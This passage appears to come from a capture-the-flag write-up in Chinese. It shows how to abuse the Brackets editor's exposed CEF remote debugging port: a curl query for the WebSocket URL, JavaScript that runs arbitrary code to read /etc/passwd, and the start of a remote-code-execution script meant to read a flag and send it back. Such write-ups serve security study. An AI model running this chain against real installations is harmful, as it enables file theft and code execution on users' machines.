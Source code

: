 9234 Port 上的是 `CEF Remote Debug Port`
在本機透過瀏覽器連上的話就是個 Chrome 的 Dev-Tools:
![](https://i.imgur.com/wjyUCgj.png)

除了網頁界面以外，也能夠透過 WebSocket 來對 `CEF` 下達指令

---

透過存取 `http://localhost:9234/json` 可以得到 websocket 的 url:
```
$ curl http://localhost:9234/json
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:9234/devtools/page/81E85B65-571F-4B91-8A79-9690B60154B5",
   "id": "81E85B65-571F-4B91-8A79-9690B60154B5",
   "title": "Getting Started — Brackets",
   "type": "page",
   "url": "file:///Applications/Brackets.app/Contents/www/index.html",
   "webSocketDebuggerUrl": "ws://localhost:9234/devtools/page/81E85B65-571F-4B91-8A79-9690B60154B5"
} ]
```

再透過 WebSocket 就能與 CEF 直接溝通並在 Brackets 中執行任意 js
Brackets 不受限於 sandbox，可以使用 `brackets.fs` 直接讀取任意目錄及檔案:

```javascript=
var ws = new WebSocket("ws://localhost:9234/devtools/page/81E85B65-571F-4B91-8A79-9690B60154B5");
ws.onopen = function() { 
    msg = {
        id: 1,
        method: "Runtime.evaluate",
        params: {
            expression: 'brackets.fs.readFile("/etc/passwd", "utf8",function(err, contents) {alert(contents);});'
        }
    }
    ws.send(JSON.stringify(msg));
};
```

![](https://i.imgur.com/bnhCFxl.png)



---

### 0x05. Remote Code Execution

雖然最新版本中已經修正了 `DNS Rebinding Attack` 的問題，會檢查 Host Header 必須來自 `localhost`
但由於我們能夠在本機的 Dash 中執行任意 js ，因此可以直接繞過這個檢查

最後，該來拿 Flag 了，透過 Dash 中的 js 來對 `CEF` 下指令，執行任意 js 並讀取 flag，再用 HTTP Request 送回結果:

```javascript
function get(url) {
    try {
        var x = new XMLHttpRequest();
        x.open("GET", url, false);
        x.send();
        return x.responseText;
    } catch(e) {
        console.log(e);
        return "";
    }
}

var wsurl = JSON.parse(get("http://localhost:9234/json"))[0].webSocketDebuggerUrl;
```